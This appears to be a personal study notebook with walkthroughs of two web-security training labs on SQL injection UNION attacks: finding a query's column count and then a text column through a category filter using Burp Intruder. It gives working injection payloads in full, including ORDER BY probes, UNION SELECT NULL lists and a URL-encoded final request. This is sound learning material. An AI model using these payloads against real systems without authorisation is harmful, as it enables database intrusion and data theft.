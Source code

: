 ```yaml
---
sticker: emoji//1f9ea
---
```

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030154632.png)

To begin with this lab let's take a look at the page:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030154840.png)

We have a `refine your search` section, let's send the request to burp to analyze it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030155112.png)

We have a `filter?category=` section, I believe this is our injectable section, let's begin with the SQLI:


For this, I will use the notes from [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQLI]], let's send our request to intruder and start the attack in the following way:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030155422.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030155739.png)

Let's launch the attack:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030155927.png)
Judging based on the status code and response, we can pretty much visualize `' ORDER BY 3--` was the successful payload, let's look at the response:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030160033.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030160134.png)


Now, knowing that 3 is the right one, let's use the UNION attack:

```ad-important
##### USED:


`sql`

'+UNION+select+NULL--
'+UNION+select+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--


```



Let's use intruder again the test our payloads:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030161904.png)

So, the payload that worked was this:

```sql
'+UNION+select+NULL,+NULL,+NULL--
```


Let's send the request and finish the lab:



![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030162009.png)

## EXPLANATION VIDEO

<iframe width="800" height="545" src="https://www.youtube.com/embed/umXGHbEyW5I" title="SQL Injection - Lab #3 SQLi UNION attack determining the number of columns returned by the query" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>



# Lab: SQL injection UNION attack, finding a column containing text


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030162905.png)

## SENDING THE REQUEST

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030171439.png)

So, taking advantage of the notes I took previously, this is what could work:

```ad-important

`' UNION SELECT 'a',NULL,NULL,NULL--`
`' UNION SELECT NULL,'a',NULL,NULL--`
`' UNION SELECT NULL,NULL,'a',NULL--`
`' UNION SELECT NULL,NULL,NULL,'a'--`
```


Let's try, first, let's send the request to intruder and launch the attack:


```ad-important

##### USED PAYLOAD:


' UNION select 'abcdef'--
' UNION select NULL,'abcdef',NULL--
' UNION select NULL,NULL,'abcdef',NULL--
' UNION select NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,NULL,'abcdef'--




```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030173119.png)

If we launch the attack, we realize that:

`' UNION select NULL,'abcdef',NULL--` 

Was successful:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030173318.png)

So, we can finish the lab by sending the following request:


`' UNION select NULL,'0lrAqo',NULL--`


But since we need to send it encoded, this would be what we need to send:

`%27%20UNION%20select%20NULL%2C%270lrAqo%27%2CNULL--`


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241030173523.png)


## EXPLANATION VIDEO

<iframe width="800" height="600" src="https://www.youtube.com/embed/SGBTC5D7DTs" title="SQL Injection - Lab #4 SQL injection UNION attack, finding a column containing text" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
